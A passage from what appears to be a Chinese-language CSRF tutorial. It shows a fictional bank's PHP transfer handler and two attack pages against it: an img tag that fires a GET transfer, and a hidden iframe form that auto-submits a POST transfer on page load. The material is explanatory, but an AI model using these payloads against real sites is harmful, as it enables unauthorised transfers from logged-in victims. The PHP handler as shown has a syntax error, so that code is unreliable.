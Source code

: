 危险网站B，仍然只是包含那句HTML代码：

```html
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```


> 和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....和示例1一样，你再次没了1000块～T_T，这次事故的原因是：银行后台使用了`$_REQUEST`去获取请求的数据，而`$_REQUEST`既可以获取GET请求的数据，也可以获取POST请求的数据，这就造成了在后台处理程序无法区分这到底是GET请求的数据还是POST请求的数据。在PHP中，可以使用`$_GET`和`$_POST`分别获取GET请求和POST请求的数据。在JAVA中，用于获取请求数据request一样存在不能区分GET请求数据和POST数据的问题。

##### 关于$_REQUEST

> 由于 $_REQUEST 中的变量通过 GET，POST 和 COOKIE
> 输入机制传递给脚本文件，因此可以被远程用户篡改而并不可信。这个数组的项目及其顺序依赖于 PHP 的 variables_order
> 指令的配置。

**扩展知识点：register_globals**

　　
### EG3:

经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用$_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：

```php
　<?php
　　　　session_start();
　　　　if (isset($_POST['toBankId'] &&　isset($_POST['money']))
　　　　{
　　　　    buy_stocks($_POST['toBankId'],　$_POST['money']);
　　　　}
　　?>
```

然而。。。


```html
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```
